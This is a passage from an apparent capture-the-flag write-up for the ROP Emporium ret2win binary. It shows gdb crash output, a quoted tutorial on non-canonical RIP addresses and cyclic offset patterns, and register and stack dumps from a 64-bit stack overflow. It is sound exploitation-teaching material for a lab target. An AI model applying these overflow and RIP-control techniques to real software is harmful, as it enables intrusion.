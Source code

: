 ```python
Stopped reason: SIGSEGV
0x0000000000400755 in pwnme ()
```

We can see that RIP did not actually get overwritten. The program still crashed, but not because we overwrote RIP with a invalid address, but instead it raises an exception. In 64 bit, it will not pop a value into RIP if it cannot actually jump to and execute at that address.

From [https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/)

> So the program crashed as expected, but not because we overwrote RIP with an invalid address. In fact we don’t control RIP at all. Recall as I mentioned earlier that the maximum address size is 0x00007FFFFFFFFFFF. We’re overwriting RIP with a non-canonical address of 0x4141414141414141 which causes the processor to raise an exception. In order to control RIP, we need to overwrite it with 0x0000414141414141 instead. So really the goal is to find the offset with which to overwrite RIP with a canonical address. We can use a cyclic pattern to find this offset:
> 

```python
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x400780 (<__libc_csu_init>:	push   r15)
RCX: 0x7ffff7ed21e7 (<__GI___libc_write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x7ffff7fad723 --> 0xfaf4c0000000000a 
RDI: 0x7ffff7faf4c0 --> 0x0 
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffdfa8 ("AA0AAFAAbAA1AAGA\263\200\336\367\377\177")
RIP: 0x400755 (<pwnme+109>:	ret)
R8 : 0xb ('\x0b')
R9 : 0x2 
R10: 0xfffffffffffff27a 
R11: 0x246 
R12: 0x4005b0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe0a0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```

Parts of our pattern is on the stack:

```python
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdfa8 ("AA0AAFAAbAA1AAGA\263\200\336\367\377\177")
0008| 0x7fffffffdfb0 ("bAA1AAGA\263\200\336\367\377\177")
0016| 0x7fffffffdfb8 --> 0x7ffff7de80b3 (<__libc_start_main+243>:	mov    edi,eax)
0024| 0x7fffffffdfc0 --> 0x100000060 
0032| 0x7fffffffdfc8 --> 0x7fffffffe0a8 --> 0x7fffffffe3b5 ("/home/wayell/Desktop/ROPEmporium/1.ret2win/ret2win")
0040| 0x7fffffffdfd0 --> 0x1f7fa9618 
0048| 0x7fffffffdfd8 --> 0x400697 (<main>:	push   rbp)
0056| 0x7fffffffdfe0 --> 0x400780 (<__libc_csu_init>:	push   r15)
```
